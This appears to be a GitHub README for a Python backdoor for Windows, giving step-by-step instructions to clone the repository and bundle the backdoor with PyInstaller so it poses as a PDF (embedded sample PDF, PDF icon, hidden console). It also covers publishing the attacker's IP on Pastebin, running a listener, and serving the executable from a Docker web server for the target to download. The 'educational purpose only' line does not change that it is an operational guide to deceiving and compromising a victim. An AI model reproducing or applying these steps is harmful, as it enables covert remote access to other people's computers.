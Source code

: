 # This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. Must have docker installed if using it

## Steps to use this backdoor :
1. ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```
   cd to that directory
2. find your pyinstaller path and run :
    ```powershell
    C:\Users\username\Appdata\wherever\your\pyinstaller\is\there\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
    ```
   The created backdoor must be in your "dist" folder in that directory
   
3. Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
7. when target clicks backdoor, you get the connection

## Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker ( I know using Python webserver is more simpler but I am using something different )
steps:
1. cd to Docker directory
then run :
   ```
   docker build -t Dcoker .
   ```
2. Run the container
    ```
    docker run Dcoker
    ```
and then make the target go to <your_IP>:8080 in broser to download the ready-made .exe
